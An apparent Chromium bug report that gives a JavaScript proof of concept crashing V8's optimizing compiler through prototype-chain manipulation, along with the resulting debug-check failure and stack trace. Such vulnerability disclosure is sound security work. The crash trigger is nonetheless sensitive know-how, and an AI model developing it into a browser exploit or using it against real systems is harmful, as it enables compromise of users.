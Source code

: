 UserAgent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36

Steps to reproduce the problem:
1. 
2. 
3. 

What is the expected behavior?

What went wrong?
poc:

function v0(v2, v3){
    Object.defineProperty(v2, 'length', { writable: v3 });
}
function v4(v6, v7) {
    try {
        var v9 = [];
        var v11 = v6.bind();
        v11(v9, v7);
        v11.__proto__ = v9;
        var v12 = {};
        v12.__proto__ = v9;
        v9.__proto__ = 13.37;
        v12.unshift(3);
    } catch (e) {
        v9[0] = 1.1;
        return v9[0];
    }
}
v4(v0, false);
v4(v0, false);
%OptimizeFunctionOnNextCall(v0);
%OptimizeFunctionOnNextCall(v4);
v4(v0, false);

v8 output:

#
# Fatal error in ../../src/compiler/compilation-dependencies.cc, line 102
# Debug check failed: map_.is_stable().
#
#
#
#FailureMessage Object: 00000062F7FFB1F8
==== C stack trace ===============================

        v8::base::debug::StackTrace::StackTrace [0x00007FF894727B4C+44] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\base\debug\stack_trace_win.cc:173)
        v8::platform::`anonymous namespace'::PrintStackTrace [0x00007FF87DC5D2E4+36] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\libplatform\default-platform.cc:27)
        V8_Fatal [0x00007FF8947111A5+277] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\base\logging.cc:170)
        v8::base::`anonymous namespace'::DefaultDcheckHandler [0x00007FF894710B0C+44] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\base\logging.cc:56)
        V8_Dcheck [0x00007FF894711286+54] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\base\logging.cc:176)
        v8::internal::compiler::StableMapDependency::StableMapDependency [0x00007FF84225F54D+141] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\compilation-dependencies.cc:102)
        v8::internal::compiler::CompilationDependencies::DependOnStableMap [0x00007FF84225F440+112] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\compilation-dependencies.cc:367)
        v8::internal::compiler::`anonymous namespace'::DependOnStablePrototypeChain [0x00007FF842262067+263] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\compilation-dependencies.cc:545)
        v8::internal::compiler::CompilationDependencies::DependOnStablePrototypeChains<std::vector<v8::internal::Handle<v8::internal::Map>,std::allocator<v8::internal::Handle<v8::internal::Map> > > > [0x00007FF842261E51+529] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\compilation-dependencies.cc:556)
        v8::internal::compiler::JSNativeContextSpecialization::BuildPropertyLoad [0x00007FF8423CFA7B+555] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\js-native-context-specialization.cc:2214)
        v8::internal::compiler::JSNativeContextSpecialization::BuildPropertyAccess [0x00007FF8423C40C5+517] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\js-native-context-specialization.cc:2262)
        v8::internal::compiler::JSNativeContextSpecialization::ReduceNamedAccess [0x00007FF8423C25E0+2880] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\js-native-context-specialization.cc:1182)
        v8::internal::compiler::JSNativeContextSpecialization::ReduceNamedAccessFromNexus [0x00007FF8423C4D99+1017] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\js-native-context-specialization.cc:1376)
        v8::internal::compiler::JSNativeContextSpecialization::ReduceJSLoadNamed [0x00007FF8423BC91C+1836] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\js-native-context-specialization.cc:1426)
        v8::internal::compiler::JSNativeContextSpecialization::Reduce [0x00007FF8423B7559+441] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\js-native-context-specialization.cc:105)
        v8::internal::compiler::GraphReducer::Reduce [0x00007FF8422D40D8+312] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\graph-reducer.cc:85)
        v8::internal::compiler::GraphReducer::ReduceTop [0x00007FF8422D3BA4+788] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\graph-reducer.cc:153)
        v8::internal::compiler::GraphReducer::ReduceNode [0x00007FF8422D3568+232] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\graph-reducer.cc:57)
        v8::internal::compiler::GraphReducer::ReduceGraph [0x00007FF8422D3F7D+45] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\graph-reducer.cc:78)
        v8::internal::compiler::InliningPhase::Run [0x00007FF8424D02FB+2075] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\pipeline.cc:1167)
        v8::internal::compiler::PipelineImpl::Run<v8::internal::compiler::InliningPhase> [0x00007FF8424BC630+96] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\pipeline.cc:1063)
        v8::internal::compiler::PipelineImpl::CreateGraph [0x00007FF8424B9B9F+719] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\pipeline.cc:2007)
        v8::internal::compiler::PipelineCompilationJob::PrepareJobImpl [0x00007FF8424B9551+1473] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler\pipeline.cc:975)
        v8::internal::OptimizedCompilationJob::PrepareJob [0x00007FF84209092B+843] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler.cc:218)
        v8::internal::`anonymous namespace'::GetOptimizedCodeNow [0x00007FF8420A6403+387] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler.cc:720)
        v8::internal::`anonymous namespace'::GetOptimizedCode [0x00007FF8420975FC+3500] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler.cc:889)
        v8::internal::Compiler::CompileOptimized [0x00007FF842097F29+313] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\compiler.cc:1449)
        v8::internal::__RT_impl_Runtime_CompileOptimized_NotConcurrent [0x00007FF842FB4578+456] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\runtime\runtime-compiler.cc:90)
        v8::internal::Runtime_CompileOptimized_NotConcurrent [0x00007FF842FB4192+338] (D:\Work\Browser\Chrome\yngwei_v8\v8\src\runtime\runtime-compiler.cc:82)
        Builtins_CEntry_Return1_DontSaveFPRegs_ArgvOnStack_NoBuiltinExit [0x00007FF84393D864+68]

Did this work before? N/A 

Chrome version: 73.0.3683.86  Channel: n/a
OS Version: 10.0
Flash Version: